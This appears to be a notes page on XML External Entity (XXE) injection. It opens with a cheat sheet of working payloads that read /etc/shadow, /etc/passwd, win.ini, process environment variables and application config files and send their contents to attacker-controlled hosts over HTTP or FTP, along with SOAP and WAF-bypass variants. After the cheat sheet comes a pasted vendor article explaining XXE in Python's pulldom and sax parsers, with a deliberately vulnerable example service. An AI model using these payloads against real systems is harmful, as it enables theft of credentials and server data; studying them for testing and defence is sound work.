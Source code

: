 What is XML External Entity (XXE)?
##
#
https://www.acunetix.com/blog/web-security-zone/how-to-mitigate-xxe-vulnerabilities-in-python/
#
https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
#
https://bin3xish477.medium.com/hackthebox-bountyhunter-529371920233
#
https://darkwing.moe/2020/05/21/Patents-HackTheBox/
#
https://0xdf.gitlab.io/2020/05/16/htb-patents.html
#
##

```
--------------------------------------------------------------
Vanilla, used to verify outbound xxe or blind xxe
--------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

----------------------------------------------------------------
OoB variation of above (seems to work better against .NET)
----------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">

-----------------------------------------------------------------------
OoB extra ERROR -- Java
-----------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
## External dtd: ##

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;


-----------------------------------------------------------------------
OoB extra nice
-----------------------------------------------------------------------

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
 
## External dtd: ##
 
<!ENTITY all "%start;%stuff;%end;">

------------------------------------------------------------------
File-not-found exception based extraction
------------------------------------------------------------------

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

## External dtd: ##

<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">

-------------------------^ you might need to encode this % (depends on your target) as: &#x25;

--------------
FTP
--------------
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>


## External dtd ##
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">

---------------------------
Inside SOAP body
---------------------------
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>


---------------------------
Untested - WAF Bypass
---------------------------
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```

XML External Entity Injection is often referred to as a variant of Server-side Request Forgery (SSRF). XXE leverages language parsers that parse the widely used data format, XML used in a number of common scenarios such as SOAP & REST web services and file formats such as PDF, DOCX, HTML.

The main issue lies in XML parsers and how by default, they handle outbound network calls as well as other XML-specific features which we will get into. For a broader and more in-depth explanation of XXE, I would highly recommend going over our 2-part series first.

Python XML Libraries
In the Python ecosystem (2.X & 3.X) most if not all XML parsing is handled by the standard libraries:

minidom
etree
sax
pulldom
And in some cases, even beautifulsoup, since as we said HTML is a subset of XML, we can parse XML using it. Good news is that minidom and etree are not vulnerable to XXE by default. As a result we’ll focus on pulldom as it’s tightly knit to sax.

Examples
The following example leverages the pulldom module as well as bottle to create a very minimal web service. It has a single endpoint, POST /pulldom that receives the request body as XML, parses it and returns it back.

import bottle

from xml.dom.pulldom import START_ELEMENT, parse

@bottle.post('/pulldom')
def pulldom():
    doc = parse(bottle.request.body)
    for event, node in doc:
        doc.expandNode(node)
    return(str(doc))

if __name__ == '__main__':
    bottle.run(host='0.0.0.0', port=5050)
The scanner can detect this by leveraging our AcuMonitor service, by transmitting and receiving the following request and response during the scan:

Request
POST http://localhost:5050/lxmlnet HTTP/1.1
Content-type: text/xml
Host: localhost:5050


<!ENTITY dteyybzent SYSTEM "http://hitWP5ElLuA1m.bxss.me/">
]>
&dteyybzent;
In bold you can see the !ENTITY expansion pointing to a remote URL which in this case, routes to AcuMonitor (under bxss.me).

Response
HTTP/1.0 500 Internal Server Error
Server: WSGIServer/0.1 Python/2.7.14

...
<body>
<h1>Error: 500 Internal Server Error</h1>
<p>Sorry, the requested URL <tt>&#039;http://localhost:5050/lxmlnet&#039;</tt>
caused an error:</p>
<pre>Internal Server Error</pre>
</body>
...
HTTP Response truncated for clarity

The server tried processing the payload internally, sent the request and raised a SAXParseException:

SAXParseException: http://hituxSWuqFxmy.bxss.me/:2:0: error in processing external entity reference
Conclusion
With security, the first question when receiving an input is along the lines of, “Where is this data source coming from?”. Given that the two most popular libraries, minidom and etree are safe from XXE attacks (though vulnerable to others) you are generally good to go from the standard library.

The alternative libraries, pulldom and sax are by design, required to pull XML from remote locations, which means that you should avoid using them handling untrusted user XML in any form. Should you still opt to use the aforementioned libraries, you should wrap them with your own safe implementation that sanitizes input prior to processing it.

Vulnerabilities such as XXE and many more can be detected automatically with Acunetix, by leveraging our AcuMonitor service to detect Out-of-Band vulnerabilities.



